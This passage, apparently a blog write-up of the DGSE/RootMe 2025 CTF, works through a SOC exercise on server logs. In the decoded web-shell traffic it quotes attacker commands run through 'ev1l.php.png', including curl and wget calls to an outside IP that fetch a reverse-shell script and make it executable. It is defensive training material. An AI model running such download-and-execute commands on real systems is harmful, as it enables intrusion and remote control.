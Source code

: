 ```yaml
---
title : "DGSE CTF 2025 - Mission 2"
date : 2025-05-07
categories :
    - CTF
tags :
    - DGSE-CTF-2025
    - Write-up
    - RootMe
    - SOC
    - Log analysis
excerpt : "The second mission to take down the NullVastation organization during a CTF organized by the DGSE and RootMe. This one is about SOC log analysis."
---
```


This mission is the second part of a CTF, if you missed the first mission, you can check it out here : [DGSE CTF 2025 - Mission 1][mission1]

<div style="display: flex; align-items: center; gap: 20px;">
  <div style="flex: 1;">
    <p style="padding: 10px; border-left: 4px solid #ccc;">
      The allied organisation Nuclear Punk, which was attacked by the entity, has provided us with its logs to help us understand the techniques used by the attackers, as well as the various compromise vectors exploited.
      <br>
      <br>
      To identify the attacking group, you need to recover the request that enabled the attacker to successfully use the first vulnerability in the application, the name of the vulnerability (in the format below) used by the attacker to execute the command, the IP address of the server used by the attacker and the exact location of the file that enables persistence.
    </p>
  </div>
  <div style="flex: 1;">
    <img src="../../assets/images/DGS3-CTF/Mission2-SOC.png" alt="Mission2 SOC card" style="max-width: 100%; height: auto;" />
  </div>
</div>

## Recon

We have a compromised server logs and must identify 4 things :
- the first vulnerability used by the attacker
- the second vulnerability
- the IP the tools are from
- the path of the persistence file

We have two files, one containing network traffic logs and the other containing commands history.
I start with the traffic logs and take a look at the IP addresses requests statistics, none of them seems to stand out. I also check the other available fields such as reponses codes, methods, etc...

Globally, the statistics do not give me more clue.

## Filter things out

Since there is too much noise, I decide to put a very basic filter that searches for specific keywords typically used by attackers in their requests (in a real scenario, I think this filter would still show too much noise, but it is a CTF so I give it a try).

![Filter requests](../../assets/images/DGS3-CTF/Mission2-filter-requests.png)

I luckily found very few results

![Filter requests](../../assets/images/DGS3-CTF/Mission2-filter-requests-results.png)

These requests execute commands, encoded in Base64, via a file named `ev1l.php.png`. Decoding them gives these commands in clear text :
```bash
ls -la
whoami
pwd
ping -c 1 google.com
curl http[:]//163.172.67.201:49999/
wget http[:]//163.172.67.201:49999/s1mpl3-r3vsh3ll-vps.sh
chmod +x s1mpl3-r3vsh3ll-vps.sh
```

This way of executing commands is very suspicious, moreover, the commands ping an IP address, download a script and give them execution permission (it is probably a tool for further attack steps).
Here we obtained the IP address the tools are from which is the artifact number #3 : `163[.]172.67.201`

I decide to filter on what happened with the IP address that sent these requests a few minutes before, I notice 


[mission1]: http://localhost:4000/TheWatchNode/ctf/dgse-ctf-2025-m1/

